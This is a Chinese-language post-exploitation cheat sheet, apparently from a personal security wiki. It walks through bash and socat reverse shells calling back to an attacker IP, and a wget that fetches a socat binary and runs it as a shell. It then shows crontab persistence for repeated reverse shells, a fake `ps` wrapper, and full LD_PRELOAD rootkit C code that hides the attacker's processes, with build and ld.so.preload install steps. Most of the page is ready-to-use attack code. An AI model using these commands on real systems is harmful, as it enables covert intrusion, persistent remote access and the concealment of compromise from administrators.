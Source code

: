 ## reverse shell

[reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

開後門最直覺的作法就是開一個 shell 在受害者機器的某個 port 讓我們可以連進去，但是這樣可能會被防火牆擋住

所以反過來，在受害者機器上開一個 shell 連回我們的機器

!!! tip "reverse shell"
    ```bash
    # target machine
    bash -i >& /dev/tcp/192.168.100.100/9999 0>&1
    ```

    ```bash
    # hacker machine ( 192.168.100.100 )
    socat TCP-LISTEN:9999 -
    ```

??? failure "cannot create /dev/tcp/..."
    `sh` not support this feature, use `bash` instead
    ```bash
    # run the whole command inside bash
    bash -c "bash -i >& /dev/tcp/192.168.100.100/9999 0>&1"
    ```

## better reverse shell

參考這一篇 [Upgrading simple shells to fully interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

!!! tip "python psuedo terminal"
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```

!!! tip "socat"
    ```bash
    # target machine
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.100.100:9999
    ```

    ```bash
    # hacker machine ( 192.168.100.100 )
    socat file:`tty`,raw,echo=0 tcp-listen:9999
    ```

    ??? info "no socat install"
        如果受害者機器沒有安裝 socat 可以直接用 [socat standalone binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)
        ```bash
        # target machine
        wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
        ```

## crontab

[crontab cheatsheet](https://devhints.io/cron)

拿到 shell 之後，可以把後門塞到 crontab 讓他每一段時間就跑一次後門

```bash
# reverse shell every minute
echo '*/1 * * * * bash -c "bash -i &> /dev/tcp/192.168.100.100/9999 0>&1"' | crontab
```

可以用 `crontab -l` 看目前使用者的所有排程

如果有 root 權限也可以考慮塞到 `/etc/cron.d`, `/etc/cron.hourly`, ...，這樣 `crontab -l` 就看不到了

## rootkit

rootkit 是隱藏其他程式的技術

### level 0

在 `$PATH` 環境變數中 `/usr/local/bin` 在 `/bin` 前面

所以我們可以寫一個檔案在 `/usr/local/bin/ps`

```bash
#!/bin/bash
/bin/ps $@ | grep -Ev '192.168.100.100|socat'
```

這樣就可以做到簡單的過濾字串了

* `grep -Ev` 是 inverse match
* `$@` 是傳進來的參數 ( 這裡原封不動的交給 `/bin/ps` )

### level 1 - LD_PRELOAD

#### 原始碼

```c linenums="1"
#define _GNU_SOURCE
#include <dlfcn.h>
#include <string.h>
#include <proc/readproc.h>

int hidden (char *target) {
    char *keywords[2] = { "192.168.100.100", "socat" };
    for (int i = 0; i < 2; i++) if (strstr(target, keywords[i])) return 1;
    return 0;
}

proc_t* readproc (PROCTAB *PT, proc_t *return_buf) {
    typeof(readproc) *old_readproc = dlsym(RTLD_NEXT, "readproc");
    proc_t* ret_value = old_readproc(PT, return_buf);
    while (ret_value
        && ret_value->cmdline
        && hidden(ret_value->cmdline[0])) {
        ret_value = old_readproc(PT, return_buf);
    }
    return ret_value;
}
```

#### 解釋

首先我們可以用 `ltrace` 看 `ps` 跑起來會呼叫什麼 library 的函式  

```c
...
fwrite(" [jfsCommit]\nhe]\n4\n0\n\nstart\ngrou"..., 13, 1, 0x7fbfcd303760)  = 1
readproc(0x55e061b12f90, 0x55e0609d1540, 13, 1024)                          = 0x55e0609d1540
escape_str(0x7fbfcd90b090, 0x55e0609d1740, 0x20000, 0x7fff6f748044)         = 4
strlen("root")                                                              = 4
fwrite("root", 4, 1, 0x7fbfcd303760)                                        = 1
...
```

然後會發現 `readproc` 一直出現  
`man` 是這樣介紹這個函式的 : `read information from next /proc/## entry`  
在 `ps` 的原始碼中查了一下

??? info "如何取得 ps 原始碼"
    `ps` 這個指令是來自 `procps`，可以從 [procps.sourceforge.net](http://procps.sourceforge.net/) 下載  
    另外其他基本的 shell 指令的原始碼可以從 [www.gnu.org/software/coreutils](https://www.gnu.org/software/coreutils/) 下載

```c linenums="331" tab="procps-3.2.8/ps/display.c"
  ptp = openproc(needs_for_format | needs_for_sort | needs_for_select | needs_for_threads);
  if(!ptp) {
    fprintf(stderr, "Error: can not access /proc.\n");
    exit(1);
  }
  memset(&buf, '#', sizeof(proc_t));
  switch(thread_flags & (TF_show_proc|TF_loose_tasks|TF_show_task)){
  case TF_show_proc:                   // normal non-thread output
    while(readproc(ptp,&buf)){}}
```

基本上就是 `openproc` 然後再用 `readproc` 一次讀一個 process entry  
`ptp` 的型態是 [`PROCTAB*`](https://fossies.org/dox/procps-3.2.8/structPROCTAB.html)，讓程式能找到下一個 process  
`buf` 的型態是 [`proc_t*`](https://fossies.org/dox/procps-3.2.8/structproc__t.html)，包含了 process 的資訊  
那我們就去 hijack `readproc` 這個函式，看到想隱藏的 procss 就跳過它

```c linenums="13"
    typeof(readproc) *old_readproc = dlsym(RTLD_NEXT, "readproc");
```

這行是 `LD_PRELOAD` 技巧的關鍵，用 `dlsym` 這個 function 找回原本的函式  
`typeof(readproc)` 只是一個語法糖，代表 `readproc` 這個 function pointer 的型態 ( 這樣就不用再打一次了 )

```c linenums="14"
    proc_t* ret_value = old_readproc(PT, return_buf);
    while (ret_value
        && ret_value->cmdline
        && hidden(ret_value->cmdline[0])) {
        ret_value = old_readproc(PT, return_buf);
    }
```

先正常讀一個 procss entry，檢查 cmdline 有沒有我們想要隱藏的 process  
有的話就再呼叫一次 `old_readproc` 讀下一個 process

#### 編譯

```bash
gcc -fPIC -shared -o hook.so hook.c
```

#### 執行

###### LD_PRELOAD

只有該次執行會載入

```bash
LD_PRELOAD=/path/to/hook.so ps aux
```

###### ld.so.preload

編輯 `ld.so.preload`，寫入 `hook.so` 的路徑，之後每次執行都會載入

```
/path/to/hook.so
```

可以用 `ldd` 查看是否成功 preload

<img src="https://i.imgur.com/pyGjG1j.png" width="700">

### level 2 - Kernel Module

**==TODO==**

[^1]:
	https://unix.stackexchange.com/questions/417323/what-is-the-difference-between-cron-d-as-in-etc-cron-d-and-crontab
[^2]:
	https://ubuntuforums.org/showthread.php?t=1656623
[^3]:
	http://fluxius.handgrep.se/2011/10/31/the-magic-of-ld_preload-for-userland-rootkits/
